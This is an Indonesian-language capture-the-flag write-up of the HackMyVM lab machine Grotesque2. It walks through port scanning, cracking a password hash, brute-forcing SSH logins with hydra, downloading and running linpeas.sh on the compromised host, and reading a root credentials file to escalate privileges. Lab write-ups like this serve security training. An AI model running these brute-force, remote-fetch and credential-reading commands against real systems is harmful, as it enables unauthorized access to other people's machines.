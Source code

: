```yaml
---
layout: Post
title: HackMyVM - Grotesque2 Writeup
date: 2021-10-20 10.28 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/grotesque2.zip">Grotesque 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://hackmyvm.eu/profile/?user=cromiphi">cromiphi</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7935]
└─[$] nmap -A 192.168.0.199                                                                                                 [23:22:27]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-19 23:23 EDT
Stats: 0:04:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.97% done; ETC: 23:27 (0:00:00 remaining)
Nmap scan report for 192.168.0.199
Host is up (0.00069s latency).

```
Disini sangat aneh karena port http yang terbuka mulai dari 33-555 jadi saya coba mengecek nya menggunakan script

## HTTP
Oke disini saya mengecek http dengan semua port dari 33-555 menggunakan script bash

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7950]
└─[$] for i in {23..600};do wget 192.168.0.199:$i -O index$i; done
```1

setelah itu saya cek menggunakan command sort untuk mengurutkan file dari yang terkecil sampai terbesar penyimpananya

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7951]
└─[$] ls -la | sort                                                                                                         [23:35:53]
drwxr-xr-x 2 root root 20480 Oct 19 23:35 .
drwxr-xr-x 3 root root 20480 Oct 19 23:29 ..
-rw-r--r-- 1 root root     0 Oct 19 23:35 index23
-rw-r--r-- 1 root root     0 Oct 19 23:35 index24
-rw-r--r-- 1 root root     0 Oct 19 23:35 index25
-rw-r--r-- 1 root root     0 Oct 19 23:35 index26
-rw-r--r-- 1 root root     0 Oct 19 23:35 index27
...
-rw-r--r-- 1 root root   412 Oct 19 23:35 index96
-rw-r--r-- 1 root root   412 Oct 19 23:35 index97
-rw-r--r-- 1 root root   412 Oct 19 23:35 index98
-rw-r--r-- 1 root root   412 Oct 19 23:35 index99
-rw-r--r-- 1 root root   762 Oct 19 23:35 index258
total 2144
```
dan ternyata port ke 258 memiliki penyimpanan yang lebih banyak jadi saya cek ke web menggunakan port 258.

![](images/grotesque/1.png)

# SSH

Oke disini kita dapat list username. sedangkan password nya ada di gambar Ibu Jari dan dikurangi dengan 100

![](images/grotesque/2.png)

```console
b6e705ea1249e2bb7b0fd7dac9fcd1b3
                             100
b6e705ea1249e2bb7b0fd7dac9fcd0b3 => ini adalah password ssh nya
```

selanjutnya kita crack passsword ssh nya menggunakan crack online yaitu crackstation

![](images/grotesque/crackstation.png)

Karena kita sudah mendapatkan password ssh nya selanjutnya kita mencari username dari ssh nya menggunakan hydra

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7963]
└─[$] hydra -L user.list -p solomon1 192.168.0.199 ssh                                                                      [23:46:39]
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-19 23:46:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://192.168.0.199:22/
[22][ssh] host: 192.168.0.199   login: ang**   password: solo****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-19 23:46:55
```

lalu kita ssh menggunakan user dan password tadi dan didapatkan user.txt. selanjutnya kita harus mendapatkan hak akses root. saya  menggunakan linpeas untuk mengetahui kerentanannya

```console
angel@grotesque:~$ wget https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
--2021-10-19 22:49:49--  https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh [following]
--2021-10-19 22:49:50--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[============================================================>] 466.05K   673KB/s    in 0.7s    

2021-10-19 22:49:51 (673 KB/s) - ‘linpeas.sh’ saved [477235/477235]

angel@grotesque:~$ chmod +x linpeas.sh 
angel@grotesque:~$ ./linpeas.sh 
```
dan ditemukan 
```console

══════════╣ Unexpected in root
/vmlinuz.old
/rootcreds.txt
/initrd.img
/initrd.img.old
/vmlinuz
```
dan kita cat 
```console
angel@grotesque:~$ cat /rootcreds.txt 
root creds

root
sweet*****
root creds
```
ditemukan password root. kita su root dan dapat hak akses root dan juga flag root

